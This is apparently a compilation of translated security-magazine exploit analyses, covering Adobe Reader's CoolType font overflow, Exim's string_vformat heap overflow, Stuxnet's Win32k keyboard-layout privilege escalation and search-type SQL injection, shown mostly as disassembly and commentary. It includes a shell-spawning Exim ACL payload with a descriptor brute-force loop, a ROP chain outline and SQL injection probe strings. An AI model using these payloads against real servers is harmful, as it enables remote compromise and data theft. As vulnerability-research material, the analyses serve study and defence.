然而，由于 PIE 带来的性能开销较大，以及需要对现有程序进行重新编译，目前 Linux 发行版上的大部分程序都不是 PIE。对于使用 RELRO 或 BIND_NOW 选项编译链接而成的二进制文件，GOT Overwriting 也被禁止了，因为在这种情况下 GOT 表被标记为只读。虽然该选项已经随着 binutils 发行了几年，该功能仍尚未被很多 Linux 发行版采用。

### 结束语

本文提出了一种通用的针对当前 Linux x86 发行版攻击方法，该方法能够躲过 NX、ASLR 和 ASCII-Armor 地址映射等防御方法。通过将某个固定内存地址重用于自定义栈以及重用二进制文件的数据值，此方法能够绕过 ASLR 和 ASCII-Armor 的防护。

Linux x86 上的 ROP 攻击现在变得很简单了，因为只需要几个可以在任何二进制文件中找得到的代码片段。我们可以使用 ROP 工具来自动找到这些代码片段。

> （编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：无

关键词：Reader、TTF、漏洞

## Adobe Reader 'CoolType.dll' TTF 字体溢出漏洞分析

文 Nicolas Joly 译 riusksk
本文旨在与大家分享一些关于 Adobe Acrobat Reader 0-Day exploit（CVE-2010-2883）的技术细节。VUPEN 组织分析了大量漏洞和 0-Day exploit，并且针对各类程序和操作系统编写出相当完善的 exploit 代码。近几个月来，我们编写了许多关于 Adobe Reader 漏洞的 exploit 代码，并且均可绕过 DEP 保护。

那为何这个 0-Day exploit 会如此有趣，以致还需著文一篇呢？因为它使用了一些令人难忘的技巧，以及一些非常手段绕过 DEP 和 ASLR 保护，这在通常情况下是很少见的。也许部分人已经知晓，在这个 0-Day exploit 中，经过恶意构造的 PDF 文件可利用 CoolType.dll 中的非安全函数 strcat() 导致溢出漏洞的发生。当 PDF 文件以特制表段来嵌入字体时，即可以此触发漏洞。

```asm
.text:0803DCF9 push ebp
.text:0803DCFA sub esp, 104h
.text:0803DD00 lea ebp, [esp+4]
...
.text:0803DD18 call __EH_prolog3_catch
```

```asm
.text:0803DD23 mov edi, [ebp+108h+arg_0]
.text:0803DD29 mov ebx, [ebp+108h+arg_4]
.text:0803DD2F mov [ebp+108h+var_130], edi
...
```

当字体文件中的 SING 表段被找到后，程序执行以下指令：

```asm
.text:0803DD74 push offset aSing ; "SING"
.text:0803DD79 push edi
...
.text:0803DAB4 call strcat ; // insecure!
```

为了利用此漏洞，通常黑客都会覆写返回地址或者 SE handler，但这里可能行不通，因为存在一个 stack cookie，阻止返回地址被利用。而当进入一个设置了异常处理例程的函数后，其栈的情况如下：

| 栈项（自上而下） |
|---|
| NEXT SEH |
| DEST（vulnerable buffer） |
| ... |
| COOKIE |
| EBP |
| RET ADDR |

如上所示，如果覆盖了返回地址，那么 cookie 也会被改写，进而阻止恶意代码的运行。而如果继续覆写下去直到触发异常，那么就可以绕过 cookie，然后将控制权交由 SE handler 处理。显然，这种解决方法并没有什么特别之处。还有另一种方法，就是覆盖函数中的参数或者变量。这里攻击者正好也是使用这种方法，当他覆盖了栈空间后，在 BIB.dll 中首次出现异常，因为下一个调用函数使用了这一个覆盖的参数。

```asm
.text:0803DDB0 pop ecx
.text:0803DDB1 pop ecx
.text:0803DDB2 lea eax, [ebp+108h+Dest]
.text:0803DDB5 push eax
.text:0803DDB6 mov ecx, ebx    ; ebx actually points to arg_4
.text:0803DDB8 call sub_8001243
```

然后，会出现如下情形：

```asm
.text:070013E7 lea eax, [ecx+1Ch]      ; ecx = [arg_4]
.text:070013FA mov [ebp+var_8], eax
.text:070013FD mov eax, [ebp+var_8]
.text:07001400 lock dec dword ptr [eax] ; first crash here
```

若程序指针指向了一个无效地址，那么首次异常将会在 0x07001400 地址触发，进而执行 SE handler，最终导致 Adobe Acrobat Reader 崩溃。因此必须设置一个有效指针，至少得允许程序可以在内存中任意递减一个 dword 字节，这也着实有效（例如 CVE-2008-4812）。但即便如此，也很难编写出一个可以绕过 DEP 和 ASLR 的 exploit。不过 sub_8016BDE 给我们带来了希望，它将两个指针压入栈中作为参数，代码如下所示：

```asm
.text:0803DEA9 loc_803DEA9:
.text:0803DEA9 lea eax, [ebp+108h+var_124]
.text:0803DEAC push eax
.text:0803DEAD push ebx
.text:0803DEAE push edi    ; ebx and edi point to arg_4 and arg_0
.text:0803DEAF call sub_8016BDE
```

上面这段代码实际上是以 arg_0 为参数来调用 sub_8016BDE，而 sub_8016BDE 将返回 0 或者一个指针。如果返回 0，那么程序将会跳到地址 0x080172CE，然后退出函数。但如果返回一个指针，那么 sub_801BB21（以 arg_0 作为其中一个参数）将被调用。

```asm
.text:08016C2B push edi
.text:08016C2C mov [ebp+664h+var_668], ebx
.text:08016C2F mov [ebp+664h+var_694], ebx
.text:08016C35 call sub_801BE1C   ; return 0 or a pointer
.text:08016C3A cmp eax, ebx
.text:08016C3C pop ecx
.text:08016C3D mov [ebp+664h+var_67C], eax
.text:08016C40 jz loc_80172CE
...
```

```asm
.text:08016C56 call sub_801BB21   ; this call must be reached
```

函数 sub_801BB1C 执行后，结果如下：

```asm
.text:0801BA57 mov eax, dword_823A728
.text:0801BA5C test eax, eax    ; the attacker does not control this pointer
.text:0801BA5E jz short locret_801BA73
.text:0801BA60 mov ecx, [esp+arg_0]
.text:0801BA64 mov ecx, [ecx+4]
.text:0801BA67 jz loc_801BA67
.text:0801BA67 cmp ecx, [eax+4]
.text:0801BA6A jz short locret_801BA73
.text:0801BA6C mov eax, [eax+8]
.text:0801BA6F test eax, eax
.text:0801BA71 jnz short loc_801BA67
.text:0801BA73 retn
```

这里 ECX 必须等于 `[eax+4]`，以便使函数能够返回除 NULL 以外的值，那么 `eax+4` 必须指向哪个值呢？

```text
0x0000006c
0x0000006b
0x00000070
0x0000006f
0x0000006d
```

由于 strcat 要被利用，因此 NULL 字节是不能使用的！此外令 `arg_0 + 4` 指向 `0x0000006d`，意味着此值不可随意更改，以便限制拷入栈中的字节数。这也正是 exploit 代码作者没有覆盖整个栈空间，而只覆盖部分空间的原因。最后进入 sub_801BB21 和 sub_808B116：

```asm
.text:0808B2E3 mov eax, [edi+3Ch]
.text:0808B2E6 cmp eax, ebx
.text:0808B2E8 mov [esi+2F4h], eax
.text:0808B2EE mov [esi+2F8h], ebx
.text:0808B2F4 mov [ebp+var_4], ebx
.text:0808B2F7 jnz short loc_808B300
...
.text:0808B307 push eax
.text:0808B308 call dword ptr [eax] ; EIP is redirected here
```

故事到此就可以结束了。取 icucnv36.dll 上的地址并不能实现各版本的通用性（至少在 9.2.0 版本以上），并且不能绕过 ASLR。不过有位 exploit 作者对同一恶意 PDF 文件进行了改进，他在上面提及的 DLL 文件上（阅读器版本至少为 9.20）使用了 ROP 技术，借此达到攻击目的。

这一 DLL 确实有趣，它并不是使用函数 VirtualAlloc、VirtualProtect、HeapCreate、WriteMemory，甚至连 LoadLibrary 也没有，这个利用起来有点复杂。他查找并使用了以下函数：

```text
4A84903C CreateFileA        // create the file is88591
4A849038 CreateFileMappingA // attrib RWE
4A849030 MapViewOfFile      // load this file in memory with RWE flags
4A849170 memcpy             // copy the payload
```

攻击者是想利用 ROP 模块进行堆喷射，而后用 Shellcode 填充。他先在磁盘上创建一个文件（iso8859），然后以 RWE 属性将其加载到内存中，接着将攻击载荷（payload）复制到内存，最后执行 Shellcode。这个 exploit 先将 ESP 指向欲喷射的地址：

```asm
text:4A80CB38 add ebp, 794h
text:4A80CB3E leave
text:4A80CB3F retn
```

返回后来到如下位置：

```asm
text:4A82A714 pop esp
text:4A82A715 retn            // esp=0x08852030
```

`0x08852030` 实际指向一块由同一 ROP 地址所覆盖的空间，以实现栈喷射：

```asm
text:4A801064 retn
```

接着返回到 ROP 地址，然后将所创建的文件映射到一块可执行的内存页，该地址弹入 eax 中。以下列指令实现调用：

```asm
text:4A80B692 jmp dword ptr [eax]
```

现在你可以注意到动态参数已被写入栈中：

```asm
text:4A80A8A6 and dword ptr [2*bx+esp], edx
text:4A80A8A9 jnz short loc_4A80A8AE
```

```asm
text:4A80A8AE loc_4A80A8AE
text:4A80A8AE cmp al, 2Fh
text:4A80A8B0 jz short loc_4A80A8AB
text:4A80A8B2 cmp al, 4Fh
text:4A80A8B4 j short loc_4A80A8BA

text:4A80A8C8 loc_4A80A8C8
text:4A80A8C8
text:4A80A8C8 xor al, al
text:4A80A8CA retn


```

最后调用 memcpy，然后跳到攻击载荷执行任意代码，即使开启了 DEP 和 ASLR，亦均可无视。

至于此漏洞是通过 fuzzing 还是静态分析挖掘到，这就不得而知了。但很显然，攻击者对此 exploit 的巧妙设计，足以反映作者 Acrobat、LiveCycle、JavaScript 和 ROP 技术的深厚功底，并且对调试器的运用也是相当熟练。

事实上，这是一个典型案例：对于同一 DLL 文件、同一个 exploit 文件，攻击者依然能够在不同版本的程序、操作系统（Windows XP/Vista/7）上成功执行。即使开启了各类安全机制，依然能够奏效。

注意，具有同类安全问题的 DLL 文件也存在于微软的主流产品中。

前置知识：无

关键词：Exim、溢出、漏洞
## Exim "string_vformat()" 溢出漏洞分析

文 Matthieu Bonetti 译 riusksk

近期 CVE-2010-4344 漏洞被广泛利用，攻击者借此可远程向以 Exim 作为消息传输代理的系统发动攻击，并可完全控制系统。这一漏洞本身其实很容易理解，但要编写出具有稳定性的 exploit 程序则颇有难度。最初公布的稳定 exploit 程序是由 jduck1337 编写的，其他相对不太稳定的 exploit 程序也可以在网上找到。在这里，将与大家分享一些针对该漏洞利用过程中的技术细节，以帮助大家编写出更具稳定性的 exploit 程序。

### 漏洞分析

CVE-2010-4344 漏洞由 string_vformat() 函数引发。此函数在处理经恶意构造的 E-mail 头信息时，由于缺乏有效过滤，导致缓冲区溢出。Exim 使用各种自定义函数来处理字符串，可参见 exim-4.69/src/string.c 文件中的源码。其中关于 string_vformat() 函数的工作原理如下：

- 指针 p 指向 buffer。
- 指针 last 指向 `buffer + buflen - 1`。

```c
1066 BOOL
1067 string_vformat(uschar *buffer, int buflen, char *format, va_list ap)
1068 {
1069 enum { L_NORMAL, L_SHORT, L_LONG, L_LONGLONG, L_LONGDOUBLE };
1070
1071 BOOL yield = TRUE;
1072 int width, precision;
1073 char *fp = format;            /* Deliberately not unsigned */
1074 uschar *p = buffer;
1075 uschar *last = buffer + buflen - 1;
1076
1077 string_datestamp_offset = -1; /* Datestamp not inserted */
```

然后将变量 width 和 precision 均设为 -1：

```c
1102 item_start = fp;
1103 width = precision = -1;
1104
1105 if (strchr("+-#0", *fp) != NULL)
```

- 如果参数 format 为 `%s`，那么它将执行以下步骤：
1. 通过 strlen() 计算出缓冲区的长度，但并非 buflen 值。
2. 如果 width 和 precision 的值均为假，则将 width 和 precision ...设置为由 `strlen()` 计算得到的缓冲区长度。

```c
1238 case 'S':
1239   s = va_arg(ap, char *);
...
1241   INSERT_STRING;
1242   if (s == NULL) s = null;
1243   slen = Ustrlen(s);
...
1249   if (width >= 0) { ... }
1257   else if (precision >= 0) { ... }
1264   else width = precision = slen;
1266   /* Check string space, and add the string to the buffer if ok. */
```

如果 `p` 大于 `last - width`，那么 `width` 和 `precision` 两个变量会被改变。

```c
1267 /* not OK, add part of the string ... */
1270 if (p >= last - width) {
1272   yield = FALSE;
1273   width = precision = last - p - 1;
1274 }
```

接着 `precision` 和 `width` 会被 `sprintf()` 函数作为参数来调用，`buffer` 也会被填充数据，直至遇到 `NULL` 字节或者达到 `width` 和 `precision` 指定的限制值。

```c
1275 sprintf(CS p, "%*.*s", width, precision, s);
1276 if (f[-1] == 's')
1277   while (*p) { *p = tolower(*p); p++; }
1278 else
1279   while (*p) p++;
```

为了帮助理解 `string_vformat()` 函数的工作原理，下面使用以下参数作为示例：

`string_vformat(buffer, 3, "%c %s", ap)`

`ap` 是一个包含单字符和长字符串 `"loooooooooooong buffer"` 的 `va_list` 可变参数。

首先，`p` 指向位于 `0x08CCC965` 地址的 `buffer`，`last` 指向 `0x08CCC965 + 3 - 1 = 0x08CCC967`。然后，开始处理 `%c`，`p` 指向的地址再加上一个 `char` 和一个空格所占用的大小：

```text
p = 0x08CCC965 + 2 = 0x08CCC967
```

接着 `width` 和 `precision` 被设置为 `-1`。然后再次处理 `%s`：

- `slen` 设置为 21（利用 `strlen()`）。
- 当 `width` 和 `precision` 为假时，均将其设置为 21。
- `last` 减去 `width` 新值后小于 `p`：

```text
0x08CCC967 - 21 = 0x08CCC952,
0x08CCC967 > 0x08CCC952
```

变量 `width` 和 `precision` 被改变了：

```text
width = precision = last - p - 1
width = precision = 0x08CCC967 - 0x08CCC967 - 1
width = precision = -1
```

当 `sprintf()` 函数被调用时，它就会以值均为 `0xFFFFFFFF` 的 `width` 和 `precision` 作为其参数来复制长字符串，虽然允许复制的字节大小被限制为 3，但整个 `va_list` 中的长字符串内容都可以被复制进去，这也就导致了堆溢出。

这一漏洞也可从反汇编代码来分析，先是 `p` 和 `last` 被初始化：

```asm
.text:080A99E9 mov edx, [ebp+buffer] ; p
...
.text:080A9A02 mov [ebp+last], eax   ; last
...
```

当处理 `%s` 时，它使用 `strlen()` 来计算 `va_list` 中字符串的长度：

```asm
.text:080A9DE8 mov [esp], ebx
.text:080A9DEB call _strlen
...
.text:080A9F49 mov [ebp+width], eax
```

接着比较（`last - width`）和 `p`，并更改 `width` 和 `precision` 两个变量值：

```asm
.text:080A9E06 mov eax, [ebp+last]
.text:080A9E09 sub eax, [ebp+width]
...
.text:080A9E1C mov [ebp+precision], eax
.text:080A9E1F mov [ebp+width], eax
```

函数 `sprintf()` 以新得到的 `width` 和 `precision` 值作为参数：

```asm
.text:080A9E22 ...
.text:080A9E2C mov dword ptr [esp+4], offset aS_0 ; "%*.*s"
...
.text:080A9E3F call _sprintf
```

如上面的代码所示，函数 `string_vformat()` 以一个超长的字符串作为参数，导致了可利用的堆溢出漏洞。为了远程利用此漏洞，攻击者可以发送一封经恶意构造的 Email。由于该邮件会被拒绝，因此接着 Exim 会调用 `log_write()`（`exim-4.69/src/log.c`）函数来进行日志记录，而该函数最终会调用漏洞函数 `string_vformat()`，进而引发溢出。

### 攻击方式和稳定执行恶意代码

为了利用 CVE-2010-4344 漏洞，攻击者必须以一个可控制的 `buflen` 和输入字符串来调用 `string_vformat()` 函数。一种可靠方法就是发送超大数据的邮件，当受害者接收到邮件后，Exim 就会记录相关的各类错误信息，其中就包括发送人和邮件头信息。`log_write()` 函数是通过以下方式来记录日志的：

- 分配 `0x2000` 字节大小的缓冲区，用于存储错误信息。
- 转储关于消息发送者的信息。
- 调用 `string_format()` 函数来转储接收到的邮件头信息。

其中函数 `string_format()` 仅是对 `string_vformat()` 函数的封装。关于发送者信息是通过以下方式进行格式化的：

- rejected from `<attacker@example.com>` H=[localhost] [192.168.158.129]: message too big: read=64948256 max=52428800
- Envelope-from: `<attacker@example.com>`
- Envelope-to: target@target.com

转储的每个邮件头信息都是通过两个空格来分隔的。下面是 `log_write()` 函数对应的反汇编代码：

```asm
text:0807CC50 log_write proc near
...
text:0807D6DF call malloc            ; Error message buffer is allocated
...
text:0807CECB call string_vformat    ; Dump "rejected from"
...
text:0807D778 call string_format
```

```asm
text:0807D782 lea esi, [esi+0]
...
text:0807D7BD call string_format
...
text:0807D875 call string_format     ; Dump a header
...
text:0807D896 mov edi, [edi]         ; Is it the last header?
text:0807D89A jnz short loc_807D848  ; Proceed the next header
```

为了稳定地利用此漏洞，攻击者必须向缓冲区中填充 `0x2000` 字节，直至最后的头信息复制进缓冲区后还剩余 3 字节。这一步很关键，可以确保 `p` 和 `last` 相等（即指向同一地址）。

为获取程序的稳定性，同时还要准确计算出发送的头信息的大小，这些内容包括 `MAIL FROM:` 头信息、主机名、服务端支持的最大字节数，以及相关的头信息和响应数据。当处理完最后一个头信息后，就可触发缓冲区溢出，在 `0x2000` 字节大小的缓冲区之后的内存空间都会被最后的头信息所覆盖。在缓冲区的 `0x2000` 字节之后，可以看到一些访问控制列表（ACL）。

- `0x09C1C92E` 地址上存放着倒数第二个头信息。
- `0x09C1CA0E` 地址上存放着 ACL。

```text
09C1C91E 41 41 41 ...
09C1C92E 30 30 30 62 3A 20 41 41 ...
09C1C95E 41 41 ...
09C1C96E 00 00 61 40 61 2E 63 6F 6D ...
09C1C97E 61 67 65 2C 20 65 6E 64 69 6E 67 ...
```

```text
ending with...
09C1C98E 20 22 2E 22 20 6F 6E 20 61 20 6C 69 6E 65 20 62 ...
on a line b
09C1C99E 79 20 69 74 73 65 6C 66 ...
...
09C1CA3E 68 7B 2F 65 74 63 2F 65 78 69 6D 34 2F 70 61 73 ...
```

```text
09C1C93E 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41
AAAAAAAAAAAAAAAA
09C1C94E 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41
...
${run{/bin/sh -c 'exec /bin/sh -i <&0 >&0 2>&0'}}
...
```

例如当检测发送者地址时就会用到 ACL，ACL 可用来执行命令，比如：`${run{command}}`。在 Linux 中，当一个进程创建子进程时，打开的文件描述符会被复制给子进程。因此，每当 ACL 命令被执行时，socket 文件描述符会被子进程重新使用，利用暴力方式很容易就能得到此描述符，并作为 stdin 来使用。

```python
for fd in range(3,20):
    cmd += "${{run{{/bin/sh -c 'exec /bin/sh -i <&{0} >&0 2>&0'}}}}".format(fd)
```

- 地址 `0x09C1C92E` 存放着倒数第二个 header 信息。
- 地址 `0x09C1C95E` 存放着最后一个 header 信息。
- 地址 `0x09C1CA0E` 被 ACL 覆盖。

```text
09C1C91E 41 41 41 41 41 41 41 41 0A 20 20 30 30 30 30 30 30
AAAAAAAA ...
09C1C92E 30 30 30 36 32 3A 20 41 41 41 41 41 41 41 41
0062: AAAAAAAA


```

为了利用 ACL 实现攻击目的，我们需要再发送第二封邮件到服务器，并且使用之前已建立的同一连接，这样就可以以 Exim 权限来执行任意代码了。如果再结合提权漏洞（例如 CVE-2010-4345），则可以以 root 权限执行任意代码。我们编写的 exploit 代码已经发布在 VUPEN Binary Analysis & Exploits Service（译注：需注册，在 exploit-db 上面有 exploit 代码，http://www.exploitdb.com/exploits/15725/；另外还有一份 msf 模板的利用代码，http://www.exploitdb.com/exploits/16925/），并且在 Debian 和 Ubuntu 上测试通过。

前置知识：无

关键词：Win32k.sys、键盘、漏洞
## Win32k.sys 键盘布局文件提权漏洞分析

文 Sebastien Renaud 译 riusksk

本文将向各位揭示一些关于 Stuxnet 蠕虫病毒的技术细节，旨在讲述利用 0-Day 漏洞实现代码的通用性。文中讨论的是笔者所用到的两个 Windows 提权漏洞之一。这一漏洞在微软发布的 MS10-073 升级补丁中已经修复了，但还有另一个 Windows 任务调度（Task Scheduler）漏洞尚未修补。虽然本文将深入分析 Stuxnet 蠕虫及其恶意行为，但我们还是不会公布 Symantec 和 ESET 的朋友所写的两份详细文档，包括其具体目录和内容。本文将主要关注 Windows `Win32k.sys` 键盘布局文件提权漏洞（CVE-2010-2743），并分析 Stuxnet 病毒是如何使用自定义的 PE（Portable Executable）解析方式来实现代码的通用性的。

### 漏洞分析

此漏洞存在于 Windows 驱动文件 `Win32k.sys` 中，当从磁盘加载一个键盘布局文件时，由于不正当地索引函数指针列表，导致本地提权漏洞的产生。通常，键盘布局文件是通过 `LoadKeyboardLayout()` 函数来加载的，该函数其实是对 `win32k syscall` 函数 `NtUserLoadKeyboardLayoutEx()` 的封装。下面是加载键盘布局文件后内核中的栈情况：

```text
kd> kb
# ChildEBP RetAddr
00 ... win32k!SetGlobalKeyboardTableInfo
01 ... win32k!ChangeForegroundKeyboardTable+0x11c
02 ... win32k!xxxSetPKLinThreads+0x37
03 ... win32k!xxxLoadKeyboardLayoutEx+0x395
04 ... win32k!NtUserLoadKeyboardLayoutEx+0x164
05 ... nt!KiFastCallEntry+0xf8
06 ... ntdll!KiFastSystemCallRet
```

一旦恶意构造的键盘布局文件被 `win32k` 内核驱动加载后，恶意程序将会向键盘输入流中发送一个事件，进而有效地触发漏洞。此过程会调用 `user32!SendUserInput` 函数，其实，它调用了 `win32k!NtUserSendInput` 和 `win32k!xxxKENLSProcs()` 这两个函数：

```text
kd> kb
# ChildEBP RetAddr
00 ... win32k!xxxKENLSProcs
01 ... win32k!xxxProcessKeyEvent+0x199
02 ... win32k!xxxInternalKeyEventDirect+0x158
03 ... win32k!xxxSendInput+0xa2
04 ... win32k!NtUserSendInput+0xcd
05 ... nt!KiFastCallEntry+0xf8
06 ... ntdll!KiFastSystemCallRet
07 ... USER32!NtUserSendInput+0xc
```

在 `win32k!xxxKENLSProcs()` 函数里面，`win32k` 驱动会去检索先前加载的键盘布局文件中的某一字节。这一字节会被置入 ECX 寄存器，然后作为函数指针表的索引值：

```text
In win32k!xxxKENLSProcs() function:
movzx ecx, byte ptr [eax-83h]  // ECX 可被攻击者控制
push edi
add eax, 0FFFFFF7Ch
push eax
call aNLSVKFProc[ecx*4]
```

`aNLSVKFProc` 函数数组包含 3 个函数，并且后面跟随着一段字节数组：

```text
data:BF99C4B8 aNLSVKFProc dd offset _NlsNlsProc@12
data:BF99C4BC dd offset _KbdNlsFuncTypeNormal@12
data:BF99C4C0 dd offset _KbdNlsFuncTypeAlt@12
data:BF99C4C4 aVkNumpad db 67h
data:BF99C4C5 db 68h
data:BF99C4C6 db 69h
data:BF99C4C7 db 0FFh
data:BF99C4C8 db 64h
...
data:BF99C4D3 db 0
```

如果请求的索引值大于 2，那么代码将引用字节数组中的值作为指针。如果索引值为 5，那么在函数 `win32k!xxxKENLSProcs()` 中的代码就会调用 `0xBF99C4CC` 处的指针，相当于程序将执行至 `0x60636261`。

```text
kd> dds win32k!aNLSVKFProc L6
bf99c4b8 ... win32k!NlsSendBaseVk             // index 0
bf99c4bc ... win32k!KbdNlsFuncTypeNormal      // index 1
bf99c4c0 ... win32k!KbdNlsFuncTypeAlt         // index 2
bf99c4c4 ...                                  // index 3
bf99c4c8 ...                                  // index 4
bf99c4cc 60636261                             // index 5
```

## 通过 PE 解析提高代码执行的通用性

当 `aNLSVKFProc` 函数数组未被导出时，为了获得可在各个 `win32k.sys` 驱动版本上执行恶意代码的通用性，Stuxnet 蠕虫的作者必须确保索引数据位于 `aNLSVKFProc` 数组之外，并且指向一个可控制的有效指针，然后执行 `call` 指令。为了达到上述目的，Stuxnet 蠕虫解析 `win32k.sys` 文件时使用以下方法：

- 以平面数据文件（flat data file，即无格式文件）的形式加载 `win32k.sys`。
- 获取 PE 头相关信息（块数、导出表数据目录和导入表数据目录，等等）。
- 获取时间戳信息。
- 获取 `.data` 节段虚拟地址。
- 获取 `.data` 节段信息。
- 获取 `.text` 节段虚拟地址。
- 获取 `.text` 节段信息。
- 搜索特定的二进制签名。
- 搜索 `aNLSVKFProcs` 函数数组。

Stuxnet 使用一个在各个 `win32k.sys` 驱动版本（位于 Windows 2000 和 Windows XP 中）上都存在的二进制签名。该签名与 `auShifControlCvt_VK_IBM02` 变量（非导出）的前 8 字节相匹配，其位于二进制文件中的 `.data` 节段：

```text
data:BF99C4D0 auShifControlCvt_VK_IBM02
data:BF99C4DC db 91h
data:BF99C4DD db 0
data:BF99C4DE db 3
data:BF99C4DF db 1
data:BF99C4E0 db 90h
data:BF99C4E1 db 0
data:BF99C4E2 db 13h
data:BF99C4E3 db 1
```

目前已知签名：

- 存在于各个 `win32k` 驱动版本。

- 具有唯一性。
- 在 aNLSVKFProc 函数数组附近。
- 一旦签名被找到，病毒就在偏移签名处 -1000～+1000 字节地址范围内搜索驱动中的代码块指针。

```asm
.data:BF99C470 ...
.data:BF99C480 CA 32 93 BF ...
```

上述数据按代码视角解释后，位于 0xBF99C478（0xBF9332CA）的指针指向代码段。

```asm
.data:BF99C470 _NlsKbdConfiguration db 7
.data:BF99C478 _aNLSKEProc dd offset _NlsNullProc@12
.data:BF99C47C off_BF99C47C dd offset _NlsLapseProc@12
.data:BF99C480 dd offset _NlsNullProc@12
```

当该指针被找到后，病毒继续按条件判断（当前代码停在 0xBF99C478，记作 ploc）：

- （1）ploc[0] 和 ploc[2] 必须是同一指针。

```asm
.data:BF99C478 _aNLSKEProc dd offset _NlsNullProc@12
.data:BF99C47C off_BF99C47C dd offset _NlsLapseProc@12
.data:BF99C480 dd offset _NlsNullProc@12
```

- （2）ploc[0] 和 ploc[1] 必须非同一指针。

```asm
.data:BF99C478 _aNLSKEProc dd offset _NlsNullProc@12
.data:BF99C47C off_BF99C47C dd offset _NlsLapseProc@12
.data:BF99C480 dd offset _NlsNullProc@12
```

- （3）ploc[0] 和 ploc[3] 必须非同一指针。

```asm
.data:BF99C478 _aNLSKEProc dd offset _NlsNullProc@12
.data:BF99C47C off_BF99C47C dd offset _NlsLapseProc@12
.data:BF99C480 dd offset _NlsNullProc@12
.data:BF99C484 dd offset _NlsSendParamVk@12
```

满足上述条件后，样本基本确定定位到 _aNLSKEProc 数组。随后继续检测该地址上的指针是否指向 NlsNullProc（通过搜索函数前几字节中的 RETN 0C 指令，即机器码 0xC20C）。

```asm
.text:BF9332CA ; stdcall NlsNullProc(x,x,x)
.text:BF9332CA _NlsNullProc@12 proc near
.text:BF9332CA xor eax,eax
.text:BF9332CC inc eax
.text:BF9332CD retn 0Ch ; opcodes 0xC2 0x0C
```

下面是 Stuxnet 病毒进行机器码搜索的一段反汇编代码：

```asm
CPU Disasm
10002C5F PUSH 2
10002C61 ADD ECX,DWORD PTR SS:[LOCAL.5]
...
10002C78 JNB SHORT 10002C67
```

如果找到 RETN 0C 指令，则当前代码定位在 _aNLSKEProc 变量中（0xBF99C478）。

```asm
.data:BF99C478 _aNLSKEProc dd offset _NlsNullProc@12
```

到这一步后，程序还会继续搜索下一个 NlsNullProc() 函数指针。

```asm
.data:BF99C4B0 dd offset _NlsKanaEventProc@
.data:BF99C4B4 dd offset _NlsConvOrNonConvProc@12
.data:BF99C4B8 _aNLSVKFProc:
.data:BF99C4B8 dd offset _NlsNullProc@12
.data:BF99C4BC dd offset _KbdNlsFuncTypeNormal@
.data:BF99C4C0 dd offset _KbdNlsFuncTypeAlt@12
```

如上所见，它找到了非输出的 aNLSVKFProc 函数数组。为确保变量正确，Stuxnet 又进行了两次检测：

- （1）在偏移 +2 字节处的指针不为 NlsNullProc：

```asm
.data:BF99C4B8 _aNLSVKFProc:
.data:BF99C4B8 dd offset _NlsNullProc@12
.data:BF99C4BC dd offset _KbdNlsFuncTypeNormal@
.data:BF99C4C0 dd offset _KbdNlsFuncTypeAlt@12
```

- （2）在偏移 -2 字节处的指针不为 NlsNullProc：

```asm
.data:BF99C4B8 _aNLSVKFProc:
.data:BF99C4B8 dd offset _NlsNullProc@12
.data:BF99C4BC dd offset _KbdNlsFuncTypeNormal@
.data:BF99C4C0 dd offset _KbdNlsFuncTypeAlt@12
```

当所有检测通过后，样本可确定这是 aNLSVKFProc 数组，然后从该数组开始检测第一个用户指针。

```asm
CPU Disasm
10002B35 MOV EDI,10000
10002B3A MOV ECX,DWORD PTR SS:[ARG.2]
...
10002B96 JBE SHORT 10002B3A
```

上述代码片段提取自 Stuxnet 病毒反汇编：先从函数指针表取指针并检测其是否小于 0x7FFF0000 且大于 0x10000000 等条件。

代码还会检测内存页是否已经被映射，如果尚未映射，则分配内存页。在本例中，它将继续在地址 `0x60636261` 上分配内存；

```text
kd> dds win32k!aNLSVKFProc L6
bf99c4b8 bf9332ca win32k!NlsSendBaseVk // index 0
bf99c4bc bf93370c win32k!KbdNlsFuncTypeNormal // index 1
bf99c4c0 bf933752 win32k!KbdNlsFuncTypeAlt // index 2
bf99c4c4 ff696867 // index 3
bf99c4c8 ff666564 // index 4
bf99c4cc 60636261 // index 5
[...]
```

```text
In win32k!xxxKENLSProcs() function starting at 0xBF8A1E9C
Module: win32k.sys - Module Base: 0xBF800000 - version: 5.1.2600.6003
...
text:BF8A1F50 movzx ecx, byte ptr [eax-83h] // ECX = 5
text:BF8A1F57 push edi
text:BF8A1F58 add eax, 0FFFFFFFF7Ch
text:BF8A1F5D push eax
text:BF8A1F5E call _aNLSVKProc[ecx*4] // Call 0x60636261


```

- 将 Shellcode 复制到 `0x00636261` 地址上。
- 在键盘布局文件中保存恶意索引值（本例中值为 5）。
- 加载键盘布局文件并发送输入事件，进而触发漏洞。

最后一步是执行 `win32k!xxxKENLSProcs()` 函数，然后调用从 `aNLSVKFProc` 函数数组中索引得到的函数指针，接着以内核权限去执行任意的 Shellcode 代码。

正如我们所见到的，在各个安装了服务包和补丁的操作系统版本（Windows 2000/XP）中，Stuxnet 使用了特意构造的 PE 解析方式，保证了函数数组能够被找到并进行攻击。该病毒所使用的方法还可以做进一步的改进，或者采用其他不同的方式。但这一病毒的出现再一次证明：病毒作者变得越来越聪明了。

前置知识：无

关键词：网站、安全、漏洞

## 未被加固网站的安全性分析
文/图 caojingtian

### 搜索型注入

出于习惯，每当看到数字型的参数或搜索框时，我总会测试下有没有 SQL 注入。今天逛某个学校的网站时就碰到了一个 SQL 注入，是搜索型的，它的测试方法为：

- 待搜索的字符串%' and 1=1 and '%'=''
- 待搜索的字符串%' and 1=2 and '%'=''

如果两者返回的结果不一致，十有八九就有漏洞了，如图 1 所示。
针对出现在 URL 中以 GET 方式提交的 SQL 注入，已经有许多非常成熟的注入工具。普通的如明小子 Domain、啊 D 注入工具等，再高级一点的可针对多种数据库的注入工具有穿山甲 Pangolin 和 Havi 等。虽然理论上 PUT 和 Cookie 提交的 SQL 注入可通过注入中转工具转换为 GET 提交，但一来这样太麻烦，二是这些自动化的工具对数字型注入支持最好，字符型次之，搜索型最差。所以遇到搜索型注入，我一般都是用手工的方法。

根据返回的信息，我把 SQL 注入分为两种。一是判断式，相当于不管注入语句如何构造，人家只会回答 yes 或 no；用这种方式获得信息效率必然很低，Access 数据库只能依靠判断式注入进行注入。二是填空式，这种方式进步一些，返回信息被列到某个字段当中，即所谓的爆字段，MySQL 的 union select 查询便是这种类型。搜索型注入自然属于前一种，只能靠猜解逐步进行判断。

- 1. 猜表名

方式为：

```text
a%' and exists(select count(*) from admin) and '%
```

